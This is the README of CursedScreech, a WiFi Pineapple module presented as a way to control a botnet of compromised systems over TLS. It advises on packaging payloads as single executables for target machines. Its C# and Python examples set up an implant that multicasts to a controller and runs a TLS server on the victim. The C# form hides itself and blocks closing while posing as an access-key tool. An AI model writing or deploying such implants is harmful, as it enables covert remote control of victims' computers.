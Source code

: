 # CursedScreech

> :warning: **This module is no longer being maintained**

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech and PortalAuth.


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using PineappleModules;

namespace Payload
{
	public partial class Form1 : Form {
    
		PA_Authorization pauth = new PA_Authorization();
	
		public Form1() {
			InitializeComponent();
	
			CursedScreech cs = new CursedScreech();
			cs.startMulticaster("231.253.78.29", 19578);
			cs.setRemoteCertificateSerial("EF-BE-AD-DE");
			cs.setRemoteCertificateHash("1234567890ABCDEF");
			cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");
		}
		private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
			e.Cancel = true;
			this.Hide();
		}
		private void accessKeyButton_Click(object sender, EventArgs e) {
				
			// Request an access key from the Pineapple
			string key = pauth.getAccessKey();
	
			// Check if a key was returned
			string msg;
			if (key.Length > 0) {
				msg = "Your access key is unique to you so DO NOT give it away!\n\nAccess Key: " + key;
			}
			else {
				msg = "Failed to retrieve an access key from the server.  Please try again later.";
			}
			
			// Display message to the user
			MessageBox.Show(msg);
		}
	}
}

```


### Python API Example
```
from PineappleModules import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
